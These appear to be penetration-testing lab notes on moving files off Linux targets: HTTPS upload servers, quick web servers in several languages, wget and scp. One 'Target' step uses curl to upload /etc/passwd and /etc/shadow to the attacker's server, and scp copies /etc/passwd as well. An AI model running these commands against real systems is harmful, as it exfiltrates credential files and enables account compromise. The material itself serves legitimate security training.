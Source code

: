 # Linux Upload Operations

## Web Upload

1. Pwnbox - Start Web Server
sudo python3 -m pip install --user uploadserver

2. Pwnbox - Create a Self-Signed Certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

3. Pwnbox - Start Web Server
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem

4. Target - Upload Multiple Files
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure

upload_nix.zip

## Alternative Web File Transfer Method

1. Target - Creating a Web Server with Python3 Python2.7 PHP Ruby
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000

2. Download the File from the Target Machine onto the Pwnbox
wget $TARGET:8000/filetotransfer.txt

wget $TARGET:8000/upload_nix.zip

## SCP Upload
scp /etc/passwd plaintext@$TARGET:/home/plaintext/
scp upload_nix.zip plaintext@10.10.15.65:/home/

scp upload_nix.zip htb-student@10.129.21.249:/home/


find .-name upload_nix 2> /dev/null

gunzip -S .zip upload_nix.zip

